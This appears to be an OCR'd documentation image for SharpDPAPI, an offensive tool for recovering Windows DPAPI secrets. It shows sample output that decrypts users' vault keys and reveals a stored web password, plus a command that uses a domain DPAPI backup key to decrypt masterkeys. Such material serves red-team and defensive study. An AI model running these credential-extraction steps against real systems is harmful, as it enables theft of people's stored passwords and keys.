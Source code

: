
 [*] Action: User DPAPI Vault Triage

 [*] Triaging Vaults for ALL users


 [*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

 VaultID : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
 Name : Web Credentials
 guidMasterKey : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
 size : 240
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32772/26115
 description :
 aes128 key : EDB42294C0721F2F1638A40F0CD67CD8
 aes256 key : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793

 LastWritten : 10/12/2018 1242 PM
 FriendlyName : Internet Explorer
 Identity : admin
 Resource : https/10.0.0.1/
 Authenticator : Password!

 ...(snip)...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

 C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...
 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: DPAPI Vault Triage

 [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

 [*] User master key cache:

 {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
 ...(snip)...

 [*] Triaging Vaults for ALL users


 [*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

 VaultID : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
 Name : Web Credentials
 guidMasterKey : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
 size : 240
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32772/26115
 description :
 aes128 key : EDB42294C0721F2F1638A40F0CD67CD8
 aes256 key : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793
